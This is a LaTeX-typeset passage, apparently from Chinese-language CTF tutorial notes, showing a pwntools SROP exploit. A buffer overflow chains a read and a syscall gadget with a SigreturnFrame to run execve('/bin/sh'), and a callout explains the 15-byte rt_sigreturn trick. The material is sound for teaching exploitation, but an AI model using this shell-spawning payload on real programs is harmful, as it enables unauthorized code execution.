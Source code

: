 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{frame }\OperatorTok{=}\NormalTok{ SigreturnFrame()            }\CommentTok{\# 產生 0xf8 bytes，就是核心會讀的那包}
\NormalTok{frame.rax }\OperatorTok{=} \DecValTok{59}                      \CommentTok{\# execve}
\NormalTok{frame.rdi }\OperatorTok{=}\NormalTok{ binsh                   }\CommentTok{\# 第 1 參數："/bin/sh" 的位址（可寫、可讀）}
\NormalTok{frame.rsi }\OperatorTok{=} \DecValTok{0}                       \CommentTok{\# argv = NULL}
\NormalTok{frame.rdx }\OperatorTok{=} \DecValTok{0}                       \CommentTok{\# envp = NULL}
\NormalTok{frame.rip }\OperatorTok{=}\NormalTok{ SYSCALL\_RET             }\CommentTok{\# 還原後要執行的位址：放「syscall」那一條指令}
                                    \CommentTok{\#   最好只含 syscall（execve 成功就換行程了，後面接什麼都不會被執行；}
                                    \CommentTok{\#   若它剛好是 \textasciigrave{}syscall; ret\textasciigrave{}——像 pwn1 的 0x401069——也一樣可用）}
\NormalTok{frame.rsp }\OperatorTok{=}\NormalTok{ binsh }\OperatorTok{+} \BaseNTok{0x200}           \CommentTok{\# 必須是「合法且可寫」的位址，且建議 16{-}byte 對齊}
                                    \CommentTok{\#   （execve 成功就用不到它；失敗時才會踩到）}

\NormalTok{payload  }\OperatorTok{=} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(READ\_AGAIN)   }\CommentTok{\# 再來一次 read {-}\textgreater{} 這次只送 15 bytes，讓 rax = 讀到的長度 = 15}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(SYSCALL\_RET)  }\CommentTok{\# 這次 read 的 ret {-}\textgreater{} syscall 指令}
\NormalTok{payload }\OperatorTok{+=} \BuiltInTok{bytes}\NormalTok{(frame)      }\CommentTok{\# frame 必須剛好落在當時的 rsp（就是 SYSCALL\_RET 被彈掉之後的位置）}
\CommentTok{\# 然後送出「剛好 15 bytes」讓 rax = 15（= \_\_NR\_rt\_sigreturn，SROP 的 syscall 編號，見 00 §7）}
\CommentTok{\# → syscall 執行 rt\_sigreturn → 核心從 rsp 讀走 frame → 所有暫存器變成上面設的值 → execve("/bin/sh")}
\end{Highlighting}
\end{Shaded}

\begin{quote}
※提示 \textbf{為什麼要「剛好 15 bytes」？} SROP 靠的是「\texttt{rax}
的值決定要做哪個 syscall」。 我們先用一次 \texttt{read} 把 \texttt{rax}
設成「實際讀到的長度」，而 \texttt{rt\_\allowbreak{}sigreturn} 的編號正好是
\textbf{15}， 所以只要讓 \texttt{read} 讀到 15 個 byte，接下來的
\texttt{syscall} 就會變成 \texttt{rt\_\allowbreak{}sigreturn}。 （同理：\texttt{read}
讀到幾個 byte 就決定了下一次 syscall 是什麼 ------ 這也是 SROP
常被拿來當「一次設好所有暫存器」的原因。） 完整的推導與 gdb 追蹤見
\texttt{../\allowbreak{}pwn1/\allowbreak{}notes.\allowbreak{}md} §5、§6。
\end{quote}
\end{document}
